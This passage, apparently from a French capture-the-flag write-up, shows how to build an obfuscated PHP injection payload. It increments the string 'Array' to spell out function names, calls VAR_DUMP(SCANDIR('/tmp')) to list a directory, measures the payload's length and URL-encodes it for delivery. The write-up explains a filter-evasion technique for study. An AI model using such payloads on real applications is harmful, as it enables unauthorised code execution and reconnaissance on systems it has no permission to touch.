 On va vérifier le dossier `/tmp`

```php
<?php

$_=[]; // Array
$_=@"$_"; // 'Array'
$_=$_["!"=="@"]; // 'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; // 'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$n=++$_; // 'U'
$h = "SC{$z}ND{$t}R"; // 'SCANDIR'
$b ="V".$z."R_D".$n."MP"; // 'VAR_DUMP'
$b($h("/tmp")); // VAR_DUMP(SCANDIR("/tmp"))
```

On fait un `VAR_DUMP(SCANDIR("/tmp"))`

On vérifie la taille et on encode

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("/tmp"));');
236

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("/tmp"));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%22%29%29%3B
```

On exécute ce paylod

![image5](assets/image5.png)
